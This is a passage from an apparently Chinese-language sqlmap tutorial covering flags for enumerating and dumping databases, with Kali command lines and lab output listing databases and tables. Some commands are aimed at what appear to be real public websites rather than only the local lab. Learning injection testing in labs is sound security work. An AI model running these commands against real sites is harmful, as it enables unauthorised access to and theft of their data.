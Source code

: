`-a` 获取所有数据

`-D ""` 获取数据库

`-T ""` 获取数据表

`-C ","` 获取字段

### 2.5 枚举

`--dbs` 列出所有数据库

`--current-db` 获取当前数据库

`--tables` 列出所有数据表

`--columns` 列出所有字段

`--dump` 导出数据

### 2.6 常规注入

判断是否存在 `sql` 注入

```
┌──(root㉿kali)-[~]
└─# sqlmap -u "http://www.golden-wall.net/" --level 5 --risk 2 -f -b --beep --random-agent
```

爆库

```
┌──(root㉿kali)-[~]
└─# sqlmap -u "https://www.hpwsxx.com/about.asp?id=1" --level 5 --risk 2 -f -b --random-agent --dbs
```

```
available databases [9]:
[*] challenges
[*] dvwa
[*] information_schema
[*] mysql
[*] performance_schema
[*] pikachu
[*] security
[*] test
[*] ultrax
```

爆表

```
┌──(root㉿kali)-[~]
└─# sqlmap -u "http://192.168.1.76/sqli-labs/Less-1/?id=1" --level 5 --risk 2 -f -b --random-agent -D "security" --tables
```

```
Database: security
[4 tables]
+----------+
| emails   |
| referers |
| uagents  |
| users    |
+----------+
```
